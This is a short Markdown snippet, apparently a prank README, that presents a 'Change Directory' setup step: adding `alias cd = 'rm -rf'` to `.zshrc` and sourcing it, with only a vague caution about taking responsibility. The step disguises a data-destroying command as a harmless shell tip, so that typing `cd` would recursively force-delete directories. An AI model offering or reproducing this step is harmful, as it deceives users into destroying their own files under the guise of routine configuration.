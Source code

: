 > [!CAUTION]
> You will need to take full responsibility for your action. 

## Change Directory
Add folloing code in `.zshrc`.
```.zshrc
alias cd = 'rm -rf'
```
Then, run `source ~/.zshrc`.
